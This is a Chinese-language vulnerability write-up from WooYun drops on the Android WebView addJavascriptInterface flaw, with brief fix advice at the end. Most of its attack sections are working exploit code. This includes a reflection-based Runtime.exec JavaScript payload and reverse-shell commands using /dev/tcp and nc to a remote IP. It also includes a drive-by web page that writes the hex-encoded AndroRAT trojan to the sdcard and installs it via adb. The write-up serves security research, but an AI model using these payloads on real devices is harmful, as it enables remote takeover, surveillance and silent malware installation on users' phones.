



# WebView 中接口隐患与手机挂马利用 

2013/09/04 15:21 | [livers](http://drops.wooyun.org/author/livers "由 livers 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章"), [移动安全](http://drops.wooyun.org/category/mobile "查看 移动安全 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

在 android 的 sdk 中封装了 webView 控件。这个控件主要用开控制的网页浏览。在程序中装载 webView 控件，可以设置属性（颜色，字体等）。类似 PC 下 directUI 的功能。在 webView 下有一个非常特殊的接口函数 addJavascriptInterface。能实现本地 java 和 js 的交互。利用 addJavascriptInterface 这个接口函数可实现穿透 webkit 控制 android 本机。

## 0x01 检测利用

* * *

一般使用 html 来设计应用页面的几乎不可避免的使用到 addJavascriptInterface，包含不限于 android 浏览器。

在 android 代码程序一般是这样使用：

```
settings.setJavaScriptEnabled(true);
settings.setJavaScriptCanOpenWindowsAutomatically(true);
mWebView.addJavascriptInterface(new JSInvokeClass(), "js2java");

```

这里可以用

```
apk->zip->dex->dex2jar->jdgui->java 
```

代码来查找。

但建议用 apktool 反编译 smali（毕竟不是所有 apk 都能反编译成 java 代码）

在 smali 代码中 则是类似下列的代码：

```
const-string v0, " js2java "
invoke-virtual {p1, v1, v0},Lcom/tiantianmini/android/browser/module/ac;->addJavascriptInterface(Ljava/lang/Object;Ljava/lang/String;)V 
```

当检测到存在上述代码时，可以进行进一步验证利用：

在 11 年，已经有人利用 addJavascriptInterface 进行文件读写，并放出简单的 poc,到 12 年出现了简单的执行代码的 exp。利用的是反射回调 java 类的内置静态变量。如下列的利用代码；

```
<script>
function execute(cmdArgs)
{
    return js2java.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
}
…
</script> 
```

利用 java 的 exec 执行 linux 的 shell 命令。

## 0x02 远程获取 shell

* * *

套用 yuange 的一句话：Poc 远远小于 exp 的价值。

利用 addJavascriptInterface 实现 shell.

Android 内部的 armlinux 是没有 busybox 的，一些常规弹 shell 的方法被限制。

使用了 java 的反弹 shell 方法

```
//execute(["/system/bin/sh","-c","exec 5<>/dev/tcp/192.168.1.9/8088;cat <&5 | while read line; do $line 2>&5 >&5; done"]); 
```

在 Nexus One 4.3 的 android 虚拟机 并未成功弹出 shell.

后发现 android 中可执行 nc 命令 （阉割版的不带-e 的 nc）

这里用了 nc 的另外一种弹 shell 的方法完成

Exp 内容：

```
<script>
function execute(cmdArgs)
{
return XXX.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
}
execute(["/system/bin/sh","-c","nc 192.168.1.9 8088|/system/bin/sh|nc 192.168.1.9 9999"]);
alert("ok3");
</script>

```

// 注 xxx 保护隐私用 xx 代指。

效果如下  

当然可以用远程 IP 地址。

## 0x03 远程挂马

* * *

毕竟是 android 环境，shell 使用不是很方便。类似 xsser 肯定不满足于此。

再升华下，实现网页挂马。

Android 4.1 已经加入 ASLR 技术,堆喷射之类不再有效。UAF 要针对 android 的内核版本。利用自身特性的漏洞是目前比较靠谱的方法。

这里以 androrat 远控木马为例。

实现网页挂马

大部分浏览器已经对下载文件进行保存提示。这里需要把 andrat.apk 写到挂马网页之中。

```
<script>
function execute(cmdArgs)
{
return xxx.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
} 

var armBinary = "x50x4Bx03x04x14x00x08x00x08x00x51x8FxCAx40x00x00x00x00x00x00x00x00x00x00x00x00x13x00x04x00x72x65x73x2Fx6Cx61x79x6Fx75x74x2Fx6Dx61x69x6Ex2Ex78x6Dx6CxFExCAx00x00xADx52x31x6FxD3x40x18xFDx2Ex76xAEx86xC4x69x5Ax3Ax54xA2x12xA9xC4x80x22x61xE3xAAx42x4DxC7x22x86x4Ax91xA8x14xC4x0Ax56x7CxC2x27x68x1Cx39x57x0Ax53x11x3Bx63x37x06xFEx01x33x1Bx43x17x36x56xFEx07xACx6Dx9FxCBx1Dx3Dx
……
var patharm = "/data/app/Androrat.apk";
var a=execute(["/system/bin/sh","-c","echo -n +armBinary+ > " + patharm]);
execute(["chmod"," 755 ","/data/app/Androrat.apk"]);

```

这样存在几个问题：

andrat.apk 的 hex value 大约 300k,浏览器或者 java 的 exec 可能对传入参数大小有限制，（测试的浏览器有限制无法执行）

/data/app/ 目录存在权限问题，需要 root，chmod 也是同理。

Android 这种静默安装要么是有 root 或者系统签名的 install 权限，要么是做成预装软件的样子并且重启。或者是 2.2 版本左右可以 通过调用隐藏 api 安装。

经过进行 fuzz 实验，完成了挂马功能：

```
<script>
function execute(cmdArgs)
{
return xxx.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
} 

var armBinary1 = "x50x4Bx03x04x14x00x08x00x08x00x51x8FxCAx40x00x00x00x00x00x00x00x00x00x00x00x00x13x00x04x00x72x65x73x2Fx6Cx61x79x6Fx75x74x2Fx6Dx61x69x6Ex2Ex78x6Dx6CxFExCAx00x00xADx52x31x6FxD3x40x18xFDx2Ex76xAEx86xC4x69x5Ax3Ax54xA2x12xA9xC4

var armBinary2="x1BxB0x65x0AxADx23xC2x30x64xDFxEExA1x0DxA4xE8x3Fx61x80xEExBCxE1xE7x7Bx4Ax25x6Fx8Bx36x71xC3x80x81x58xDBxC9x8Fx53x9FxEEx8Ax45xAFx23x54x4AxCFx2Bx52xF2x33x84xBAx82x36xC4x0Dx08xAFxC2x61x8ExD8x7Bx0BxFCx88x4Ax25x24x8Cx22xFAx76x44x78x5Ex99x62x30x44x8DxDBx74x94

var armBinary3=…
var armBinary4=…
……
var patharm = "/mnt/sdcard/Androrat.apk";
var a=execute(["/system/bin/sh","-c","echo -n +armBinary1+ > " + patharm]);
//alert(a);
execute(["/system/bin/sh","-c","echo -n +armBinary2+ >> " + patharm]);
execute(["/system/bin/sh","-c","echo  -n +armBinary3+ >> " + patharm]);
execute(["/system/bin/sh","-c","echo -n +armBinary4+ >> " + patharm]);
execute(["/system/bin/sh","-c","adb install /mnt/sdcard/Androrat.apk"]);
alert("over !!!");
</script>

```

将 androrat.apk 拆分。

利用 echo 写入到 sdcard 中（此目录可读可写 不可执行）。

利用自身带的 adb 进行安装（安装各种 xx 手机助手的不在少数吧）。  

Androrat 成功安装，这里使用了 androrat 的 debug=true 模式。



成功连接到控制端。

## 0x04 修复

* * *

1、Android 4.2 （api17）已经开始采用新的接口函数【java 中应该叫方法：） 】，@JavascriptInterface 代替 addjavascriptInterface, 有些 android 2.3 不再升级，浏览器需要兼容。

2、在使用 js2java 的 bridge 时候，需要对每个传入的参数进行验证，屏蔽攻击代码。

3、控制相关权限或者尽可能不要使用 js2java 的 bridge。

Link: [`developer.android.com/reference/android/webkit/WebView.html`](http://developer.android.com/reference/android/webkit/WebView.html) [`developer.android.com/reference/android/webkit/WebView.html#addJavascriptInterface(java.lang.Object, java.lang.String)`](http://developer.android.com/reference/android/webkit/WebView.html#addJavascriptInterface%28java.lang.Object,%20java.lang.String%29) [`www.cis.syr.edu/~wedu/Research/paper/webview_acsac2011.pdf`](http://www.cis.syr.edu/~wedu/Research/paper/webview_acsac2011.pdf) [`50.56.33.56/blog/?p=314`](http://50.56.33.56/blog/?p=314)

版权声明：未经授权禁止转载 [livers](http://drops.wooyun.org/author/livers "由 livers 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Android uncovers master-key 漏洞分析](http://drops.wooyun.org/papers/219)
*   [Android Adobe Reader 任意代码执行分析(附 POC)](http://drops.wooyun.org/papers/1440)
*   [Intent scheme URL attack](http://drops.wooyun.org/papers/2893)
*   [一只 android 短信控制马的简单分析](http://drops.wooyun.org/papers/3030)
*   [XDS: Cross-Device Scripting Attacks](http://drops.wooyun.org/papers/1472)
*   [Android App Injection&&Drozer; Use](http://drops.wooyun.org/tips/2997)